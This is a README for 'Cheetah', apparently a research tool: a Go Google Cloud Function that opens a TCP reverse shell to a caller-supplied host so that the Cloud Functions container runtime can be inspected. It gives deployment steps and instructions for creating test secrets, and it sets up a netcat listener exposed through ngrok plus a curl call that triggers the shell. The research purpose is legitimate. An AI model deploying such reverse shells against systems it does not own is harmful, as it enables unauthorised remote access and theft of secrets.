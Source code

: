 # Puma Prey Cheetah

Cheetah is a Go function that can be deployed to the Google Cloud Platform to establish a TCP reverse shell for the purposes of introspecting the Cloud Functions container runtime.

## Installing Prerequisites

* [Node.js / NPM](https://nodejs.org/en/download/)
* [Function Deployment Service Account](https://cloud.google.com/functions/docs/concepts/iam#cloud_functions_service_account)

## Deploying The Function

### Serverless Framework

```bash
export GOPATH=/PATH/TO/cheetah
cd /PATH/TO/cheetah/src/cheetah
make
```

Follow the steps at the top of the `serverless.yml` file to generate a credentials file. Modify the `serverless.yml` file to point to your GCP project ID and the **absolute path** of the credentials file.

```bash
cd /PATH/TO/cheetah/src/cheetah
npm install
GCP_PROJECT=YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID GCP_CREDENTIALS_FILE=/ABSOLUTE/PATH/TO/.gcloud/keyfile.json npx serverless deploy
```

### Native GCloud Commands

To deploy natively without the serverless framework, configure `gcloud` in the Terminal to authentication as the deployment service account. Then, deploy the function.

```bash
gcloud auth activate-service-account --key-file ~/.gcloud/keyfile.json
gcloud functions deploy cheetah --entry-point Cheetah --runtime go111 --trigger-http --service-account=XXXXXXXXX-compute@developer.gserviceaccount.com
```

## Deploying Assets

Create some secrets and grant permissions to the SA. Side note: wow, they really don't want you passing these values via the command line. Makes sense for real secrets though.

```
echo "cheetah_user" | gcloud beta secrets create cheetah-database-user --data-file=- --replication-policy=automatic

echo "TmV2ZXIgcGxheSBwb2tlciB3aXRoIHRoZSB3b3JsZCdzIGZhc3Rlc3QgYW5pbWFsLCBiZWNhdXNlIGhlJ3MgYSBjaGVldGFoLiAtIGNvb2xmdW5ueXF1b3Rlcy5jb20g" | gcloud beta secrets create cheetah-database-pass --data-file=- --replication-policy=automatic

gcloud beta secrets add-iam-policy-binding cheetah-database-user --member serviceAccount:XXXXXXXXX-compute@developer.gserviceaccount.com --role roles/secretmanager.secretAccessor

gcloud beta secrets add-iam-policy-binding cheetah-database-user --member serviceAccount:XXXXXXXXX-compute@developer.gserviceaccount.com --role roles/secretmanager.secretAccessor
```

## Testing in GCP

Set up a TCP listener for your reverse shell, such as with [Netcat](http://netcat.sourceforge.net/):

```bash
nc -l 4444
```

To make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Invoke your function, supplying your connection details:

```bash
curl 'http://us-central1-YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID.cloudfunctions.net/Cheetah?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER'
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file.

## Teardown

```bash
cd /PATH/TO/cheetah/src/cheetah
GCP_PROJECT=YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID GCP_CREDENTIALS_FILE=/ABSOLUTE/PATH/TO/.gcloud/keyfile.json npx serverless remove
```

## Linting

```bash
cd /PATH/TO/cheetah/src/cheetah
go get -u golang.org/x/lint/golint
npm run lint
```

## Serverless Go Template

Creating the original function template using the serverless framework.

```bash
cd src
serverless create --template google-go --path cheetah
```

## Exploring Further

Refer to [Serverless Docs](https://serverless.com/framework/docs/providers/google/) for more information.
